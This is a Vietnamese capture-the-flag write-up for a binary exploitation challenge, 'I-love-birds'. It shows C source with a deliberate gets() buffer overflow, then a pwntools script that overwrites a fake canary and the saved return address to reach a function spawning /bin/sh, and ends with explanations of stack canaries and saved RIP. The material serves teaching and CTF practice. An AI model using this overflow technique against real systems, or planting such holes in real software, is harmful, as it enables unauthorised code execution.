 ```yaml
---
title: Pwn - I-love-birds
---
```


## Solution

```c
#include <stdio.h>
#include <stdlib.h>

void gadget() {
    asm("push $0x69;pop %rdi");
}


void win(int secret) {
    if (secret == 0xA1B2C3D4) {
        system("/bin/sh");
    }
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    unsigned int canary = 0xDEADBEEF;

    char buf[64];

    puts("I made a canary to stop buffer overflows. Prove me wrong!");
    gets(buf); // Buffer Overflow

    if (canary != 0xDEADBEEF) {
        puts("No stack smashing for you!");
        exit(1);
    }

    return 0;
}
```

Chương trình có một lỗi `Buffer Overflow` ở hàm `gets(buf)`, ta có thể ghi đè lên biến `canary` để qua được kiểm tra và gọi hàm `win()` thông qua việc ghi đè saved RIP của hàm main.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./birds', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
b *0x40125D
c
'''

def start(argv=[]):
    if args.GDB:
        p = process([exe.path] + argv, aslr=False)
        gdb.attach(p, gdbscript=gdbscript)
        pause()
        return p
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)


# ==================== EXPLOIT ====================
p = start()

canary = 0xDEADBEEF

sl(b'A'*0x48 + b'B'*4 + p32(canary) + p64(0) + p64(0x4011dc))

interactive()
```

## Mở rộng

- Buffer Overflow là một lỗi bảo mật xảy ra khi một chương trình cố gắng ghi dữ liệu vào một vùng bộ nhớ mà không kiểm tra kích thước của dữ liệu đó, dẫn đến việc ghi đè lên các vùng bộ nhớ khác. Trong trường hợp này, hàm `gets(buf)` không kiểm tra kích thước của chuỗi nhập vào, cho phép kẻ tấn công ghi đè lên các biến khác trong stack, bao gồm cả biến `canary` và địa chỉ trả về của hàm.

- Stack Canary là một kỹ thuật bảo mật được sử dụng để phát hiện và ngăn chặn các cuộc tấn công tràn bộ đệm (buffer overflow). Nó hoạt động bằng cách đặt một giá trị đặc biệt (canary) vào vùng bộ nhớ ngay trước địa chỉ trả về của hàm. Nếu giá trị này bị thay đổi, chương trình sẽ nhận ra rằng có một cuộc tấn công đã xảy ra và sẽ dừng thực thi. Ở đây, ta có thể thấy rằng giá trị canary được đặt là `0xDEADBEEF`, và nếu giá trị này bị thay đổi, chương trình sẽ dừng lại và không cho phép thực thi hàm `win()`. Stack Canary sẽ tuỳ vào kiến trúc mà có số byte khác nhau, ví dụ như trên x86-64 sẽ là 8 byte, trong khi trên x86 sẽ là 4 byte. Lưu ý rằng giá trị canary ở challenge này là giá trị tượng trưng, chứ không phải là giá trị canary thực tế. Trên thực tế canary đã được tắt trong lúc compile.

```sh
-----------------
| ...           |
-----------------
| Stack Canary  |
-----------------
| Saved RBP     |
-----------------
| Saved RIP     |
-----------------
```

- Saved RIP (Return Instruction Pointer) là một thanh ghi trong kiến trúc x86-64, nó lưu địa chỉ của lệnh tiếp theo sẽ được thực thi sau khi hàm hiện tại kết thúc. Khi xảy ra tràn bộ đệm, kẻ tấn công có thể ghi đè lên giá trị này để điều khiển luồng thực thi của chương trình, ví dụ như chuyển đến một hàm khác mà kẻ tấn công muốn thực thi.
